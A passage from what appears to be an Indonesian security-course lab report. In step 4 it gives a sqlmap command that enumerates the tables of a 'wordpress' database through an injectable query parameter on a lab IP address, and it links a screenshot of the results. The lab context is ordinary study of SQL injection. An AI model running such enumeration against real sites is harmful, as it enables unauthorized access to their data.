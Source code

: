 ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/result_database.png "Result database")
4. Untuk melihat daftar table apa saja yang ada di database **wordpress** masukkan perintah `sqlmap --url="10.151.32.6/?season=2017&league_id=1" -D wordpress --tables`